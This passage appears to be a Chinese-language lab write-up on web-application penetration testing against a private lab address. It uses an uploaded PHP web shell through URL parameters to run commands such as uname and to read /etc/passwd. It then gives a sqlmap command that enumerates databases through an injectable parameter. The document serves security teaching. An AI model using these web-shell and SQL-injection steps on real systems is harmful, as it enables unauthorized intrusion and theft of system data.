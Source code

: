 可以看到上传成功。

![](images/hihi.png)

### 测试WebShell

使用测试脚本cmd运行命令。

1. 查看内核。```http://192.168.56.101/admin/uploads/test.php3?cmd=uname```

![](/Users/xinke/Desktop/工具/shared/ns-chap07/images/cmd1.png)

2. 查看 /etc/passwd。

   ```http://192.168.56.101/admin/uploads/test.php3?cmd=cat /etc/psasswd```

![](images/cmd2.png)

3. 查看 /etc目录下内容。

   ![](images/cmd3.png)

### 利用sqlmap查找Web漏洞

1. 查找数据库。可以看到有两个可用数据库。

1. ```mysql
   sqlmap -u "http://192.168.56.101/cat.php?id=1" --dbs
   # -u URL
   # --dbs 枚举DBMS数据库
   ```
